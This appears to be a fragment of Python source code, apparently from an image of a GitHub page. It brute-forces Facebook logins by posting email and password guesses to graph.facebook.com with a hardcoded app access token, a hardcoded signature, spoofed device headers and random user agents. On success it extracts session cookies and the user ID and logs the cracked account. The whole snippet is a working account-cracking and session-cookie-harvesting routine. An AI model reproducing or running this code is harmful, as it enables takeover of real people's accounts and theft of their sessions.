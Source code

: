 				ua = random.choice(ugent)

				params = {

					"access_token": "200424423651082|2a9918c6bcd75b94cefcbb5635c6ad16",

					"sdk_version": {random.randint(1,26)}, 

					"email": email,

					"locale": "en_US",

					"password": pw,

					"sdk": "android",

					"generate_session_cookies": "1",

					"sig": "4f648f21fb58fcd2aa1c65f35f441ef5"

				}

				headers = {

					"Host": "graph.facebook.com",

					"x-fb-connection-bandwidth": str(random.randint(20000000, 30000000)),

					"x-fb-sim-hni": str(random.randint(20000, 40000)),

					"x-fb-net-hni": str(random.randint(20000, 40000)),

					"x-fb-connection-quality": "EXCELLENT",

					"user-agent": ua,

					"content-type": "application/x-www-form-urlencoded",

					"x-fb-http-engine": "Liger"

				}

				post = ses.post("https://graph.facebook.com/auth/login",params=params, headers=headers, allow_redirects=False)

				if "session_key" in post.text and "EAA" in post.text:

					coki = ";".join(i["name"]+"="+i["value"] for i in post.json()["session_cookies"])

					user = re.findall("c_user=(\d+)",coki)[0]

					if user in self.ok or user in self.cp:

						break

					else:

						self.ok.append(user)

						tree = Tree(" ",guide_style=f"{color_panel}")

						tree.add(f"\r{H2}{user}|{pw}{P2} ")

						tree.add(Panel(f"{H2}{coki}{P2}",style=f"{color_panel}"))
